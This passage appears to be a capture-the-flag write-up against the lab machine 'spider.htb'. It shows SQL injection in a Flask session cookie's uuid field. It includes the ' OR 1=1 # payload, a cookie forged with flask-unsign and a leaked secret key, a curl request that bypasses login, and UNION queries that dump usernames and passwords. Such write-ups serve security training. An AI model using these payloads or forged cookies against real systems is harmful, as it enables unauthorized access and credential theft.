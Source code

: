 ## SQLi in auth token

While testing token parameters found sql injection in `uuid` parameter

**Payload:** `' OR 1=1 #` in `UUID` field

Token generate with found secret key with `flask-unsign` tool
```bash
❯ flask-unsign --sign --cookie "{'cart_items': [], 'uuid': '\' or 1=1 #'}" --secret 'Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942'
eyJjYXJ0X2l0ZW1zIjpbXSwidXVpZCI6Iicgb3IgMT0xICMifQ.YMuViQ.0ua4DgajELzCT9u7cIDzw9cTpGE

❯ curl -s 'http://spider.htb/' -b 'session=eyJjYXJ0X2l0ZW1zIjpbXSwidXVpZCI6Iicgb3IgMT0xICMifQ.YMuViQ.0ua4DgajELzCT9u7cIDzw9cTpGE' | grep Logout | grep -o -P '(?=\().*(?<=\))'
(logged in as chiv)
```

`uuid` is a authenticated user identifier and injecting "True" statement bypass authentication.

Testing for UNION based sql injection

![](/assets/img/posts/spider/sql-injection.png)

Extracting data from database
```sql
--get current database name
UNION SELECT database()
--extract tables from current db
UNION SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema='shop'
--dump all colums from table
UNION SELECT group_concat(column_name) from information_schema.columns where table_name ='users'
--dump colum content
UNION SELECT group_concat(uuid,':',name,':',password) from shop.users
```

![](/assets/img/posts/spider/user-creds.png)


Login with user chiv's uuid and password get admin panel
